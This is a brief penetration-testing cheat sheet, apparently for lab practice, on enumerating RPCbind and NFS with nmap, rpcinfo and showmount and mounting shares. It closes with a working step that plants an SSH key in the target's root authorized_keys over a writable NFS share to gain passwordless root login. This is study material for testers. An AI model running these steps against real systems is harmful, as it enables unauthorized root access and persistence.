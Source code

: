 ## Nmap Scan on RPCbind and NFS

```
nmap -v -p 111 10.11.1.1-254

nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254

nmap -p 111 --script nfs* 10.11.1.72
```
# Identifying if NFS is in use

```
rpcinfo -p 10.10.10.3

# If you get 111 and 2049 listed , shares are enable and we can mount them
```

## Show all mounts

```
showmount -e 10.10.10.3
```

## Mount a NFS share

```
mkdir /mnt/nfs
```

```
mount -t nfs $ip:/share /mnt/nfs
```

## Unmounting the shares

```
umount -f -l /mnt/nfs
# -f – Force unmount (in case of an unreachable NFS system).
# -l – Lazy unmount. Detach the filesystem from the filesystem hierarchy now, and cleanup all references to the filesystem as soon as it is not busy anymore.
```

# Further Exploitation

**If you can write to the remote hosts, try to put ssh key there** so that we can get remote ssh without password

```
ssh keygen
# Generating ssh keys

cat ~/.ssh/id_rsa.pub >> /mnt/nfs/root/.ssh/authorized_keys
# Putting it to remote host

ssh root@$ip
# Now can login without password on target
```

